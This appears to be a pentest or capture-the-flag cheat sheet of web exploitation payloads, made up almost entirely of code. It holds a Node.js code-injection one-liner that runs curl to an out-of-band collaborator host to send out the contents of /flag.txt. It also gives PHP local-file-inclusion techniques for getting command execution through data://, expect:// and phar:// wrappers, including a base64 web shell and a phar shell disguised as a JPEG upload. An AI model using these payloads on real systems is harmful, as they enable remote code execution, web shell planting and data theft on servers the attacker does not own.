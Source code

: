 ##### #nodejs Code injection
```js
process.mainModule.require('child_process').execSync('curl http://v2ykv786rd6cm20eq2zgccth78dz1ppe.oastify.com/$(cat /flag.txt)')+
```
##### Via #LFI and #PHP wrappers
Encode PHP script in base64:
```bash
echo '<?php system($_REQUEST("cmd")) ?>' | base64
```

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Data wrapper expect
Check config for
```
extension=expect
```

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
##### Via phar upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

?>
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
